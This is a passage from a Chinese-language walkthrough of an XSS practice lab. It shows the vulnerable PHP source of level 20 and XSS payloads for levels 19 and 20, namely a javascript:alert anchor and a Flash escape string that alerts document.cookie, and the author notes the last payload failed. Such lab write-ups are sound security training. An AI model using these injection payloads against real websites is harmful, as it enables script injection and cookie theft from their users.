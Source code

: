 

`?arg01=version&arg02=b`

就是version=b

a标签构造链接

`?arg01=version&arg02=<a%20href="javascript:alert(%27xss%27)">111</a>`



## level20

http://192.168.31.193:8080/level20.php?arg01=a&arg02=b

```php+HTML
<body>
<h1 align=center>欢迎来到level20</h1>
<?php
ini_set("display_errors", 0);
echo '<embed src="xsf04.swf?'.htmlspecialchars($_GET["arg01"])."=".htmlspecialchars($_GET["arg02"]).'" width=100% heigth=100%>';
?>
</body>
```



`?arg01=id&arg02=\"))}catch(e){}if(!self.a)self.a=!alert(document.cookie)*//&width&height*`

没有弄出来。

结束...


